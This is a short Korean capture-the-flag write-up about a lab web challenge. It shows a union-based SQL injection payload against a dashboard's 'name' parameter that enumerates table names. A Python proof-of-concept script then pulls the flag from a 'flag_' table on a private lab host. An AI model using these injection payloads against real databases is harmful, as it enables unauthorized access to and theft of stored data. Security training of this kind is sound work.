




+ summary 

SQL Injection을 통해, flag 테이블을 찾아 flag를 얻습니다.

## 문제 풀이

페이지에 접근하면 아래와 같이 나옵니다.



소스코드를 직접 살펴보면 아래와 같이 구버전의 대시보드가 나오는 것을 볼 수 있습니다.



소스코드를 보면, 아래와 같이 SQL Injection이 발생 될 것 같은 ``$_GET['name']`` 파라미터가 존재합니다.



아래의 페이로드를 통해, 테이블 정보를 얻어보면 flag_으로 이삭하는 테이블이 존재합니다.

``' union select 1,2,(select group_concat(table_name) from information_schema.tables where table_schema=database()),4,5 -- '``



``flag_838ece1033`` 테이블을 조회하기 위해 아래의 POC를 실행하면 flag가 나옵니다.

```py
import requests
import re

host = "172.24.218.139"
port = 10001

url = f"http://{host}:{port}"

result = requests.get(url + "/2025-06-02-dashboard.php", params={
    'name':"' union select (select flag from `flag_838ece1033`),2,3,4,5 -- '"
})
flag = re.findall("(flag{.*})", result.text)

assert len(flag) == 1

print(flag[0].strip())
```